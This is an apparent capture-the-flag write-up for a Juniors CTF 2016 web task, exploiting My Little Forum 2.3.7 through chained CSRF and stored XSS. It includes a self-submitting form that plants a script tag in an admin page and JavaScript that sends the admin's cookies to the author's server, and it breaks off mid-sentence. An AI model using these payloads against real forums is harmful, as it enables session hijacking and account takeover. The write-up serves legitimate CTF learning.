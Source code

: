 # Forum for all
##### Juniors CTF 2016 (http://ctf.org.ru)
```
http://10.0.38.133:61937
```

This web task was running My Little Forum 2.3.7, which has several known vulnerabilities: https://www.exploit-db.com/exploits/40676/.

Luckily, there is an admin bot that is periodically clicking posted links, so we can get the bot to a page controlled by us.

I used Python's `SimpleHTTPServer` to handle HTTP and a JavaScript injection to steal the cookies.

## csrf.html
```html
<html>
<head></head>
<body>
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="asdf">
<input type="hidden" name="content" value="asdf">
<input type="hidden" name="menu_linkname" value="XSS<script src='http://10.3.0.162:8002/csrf.js'></script>">
<input id='trigger' type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<script>document.getElementById('trigger').click();</script>
</body>
</html>
```

## csrf.js
```js
var img = document.createElement('img');
img.src = 'http://10.3.0.162:8002/'+document.cookie;
document.body.appendChild(img);
```
* Post the link on the forum: `[link]http://10.3.0.162:8002/csrf.html[/link]`
* Exploit the CSRF and Stored XSS vulnerabilities to



To exploit known